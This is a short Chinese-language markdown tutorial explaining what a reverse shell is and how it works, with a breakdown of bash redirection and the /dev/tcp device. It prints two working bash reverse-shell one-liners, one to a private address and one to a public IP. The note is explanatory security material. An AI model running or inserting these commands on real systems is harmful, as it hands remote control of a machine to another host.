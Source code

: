```yaml
---
title: 什么是反弹shell及原理
tags: linux web-security
---
```




**什么是反弹shell？**

反弹shell（reverse shell），就是控制端监听在某TCP/UDP端口，被控端发起请求到该端口，并将其命令行的输入输出转到控制端。reverse shell与telnet，ssh等标准shell对应，本质上是网络概念的客户端与服务端的角色反转。简单理解就是被控制端的访问控制端端口，并将控制端的标准输入从被控制端重定向到控制端，从而在控制端执行被控制端系统的命令。



参考链接：https://blog.csdn.net/haoge1998/article/details/124259580



bash -i >& /dev/tcp/192.168.0.1/4444 0>&1

**bash -c "bash -i >& /dev/tcp/124.221.149.161/9999 0>&1" (获取交互式的反弹shell)** 



bash -i：打开一个交互式的bash

\>&：将标准错误输出合并并重定向到标准输出，也可以写成&>

/dev/tcp/192.168.0.1/4444：调用socket，建立socket连接，其中192.168.0.1为要反弹的主机IP，4444为端口

0>&1：标准输入重定向到标准输出，实现你与反弹出来的shell的交互，可以接受用户输入，0>&1和0<&1作用相同



/dev/tcp 说Linux的一个特殊设备，打开这个文件就相当于发出了一个socket调用，建立一个socket连接，读写这个文件就相当于在这个bash命令行的过程中。



三种输入输出的状况：

标准输入：代码为0；或称为stdin；使用的方式为<

标准输出：代码为1；或称为stdout；使用方式为1>

错误输出：代码为2；或称为stderr；使用方式为2>